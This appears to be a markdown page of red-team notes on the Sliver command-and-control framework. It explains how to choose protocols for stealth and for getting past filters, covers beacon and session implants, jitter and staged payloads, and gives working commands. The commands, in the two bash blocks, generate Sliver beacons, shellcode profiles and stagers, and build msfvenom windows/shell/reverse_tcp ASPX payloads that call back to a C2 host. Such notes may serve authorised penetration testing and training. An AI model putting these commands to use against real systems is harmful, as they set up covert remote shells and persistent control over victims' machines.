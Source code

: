 # Content
- []()
- []()
# Sliver Communication Protocols
![Architecture](https://github.com/user-attachments/assets/5d6aa18d-6484-42a1-b833-96e29ab9ca9b)
## Choosing the Right Protocol

The selection of a protocol depends on the specific network environment and the attacker’s objectives:

- **Stealth**: DNS and HTTPS are preferred in highly monitored networks.
- **High Bandwidth**: mTLS and HTTPS are better for large data transfers.
- **Internal Pivoting**: Named pipes and TCP pivots are essential for moving laterally within an environment.
- **Bypassing Restrictions**: DNS can bypass most outbound traffic filters.


# Implants 
- Implants are the software (binaries/executables), They offer network connections on different sets of protocols and a means of communication between a C2 server and the target workstation/server.
- Implants can operate in beacon and session modes.
  - **Sessions:** use long-polling connections, which means they use a single TCP connection which is constantly open.
  - **Beacons:** on the other hand call back periodically, and will sleep when not active which can help keep their presence hidden.
```bash
sliver > generate beacon --http 127.0.0.1:8088 -N http_beacon --os linux --skip-symbols
sliver > http --lport 8088
```
## Jitter
- Jitter is a randomization mechanism that alters the interval at which beacon signals are sent to the C2 server.
- Example: If a beacon is set to signal every 60 seconds with a 20% jitter, the actual interval will vary randomly between 48 and 72 seconds.
## Stagers
- **Stegeless:**  one single binary that connects back to u
- **Staged:** Dropper, its a smaller payload that when executed, will call back to the C2 server to download and execute the second stage of the payload in-memory, which is where you actually get the beacon to execute.

```bash
# create profile and set a beacon
sliver > profiles new beacon --http <C2 IP>:8088 --format shellcode profile_name
sliver > http -L <C2 IP> -l 8088
# just another example:  sliver > profiles new beacon --arch amd64 --os windows --mtls <C2 IP>:443 -f shellcode --timeout 300 --seconds 5 --jitter 1 profile_name 


# use sliver shellcode in msvnom stagger
sliver > stage-listener --url tcp://<C2 IP>:4443 --profile profile_name
sliver > generate stager --lhost <C2 IP> --lport 4443 --format csharp --save staged.txt
# change the shellcode in sliver.aspx with the one generated above
msfvenom -p windows/shell/reverse_tcp LHOST=<C2 IP> LPORT=4443 -f aspx > sliver.aspx

# use msvenom stagger directly 
sliver > stage-listener --url http://<C2 IP>:8080 --profile profile_name --prepend-size
msfvenom -p windows/shell/reverse_tcp LHOST=<C2 IP> LPORT=4443 -f aspx > sliver.aspx
```
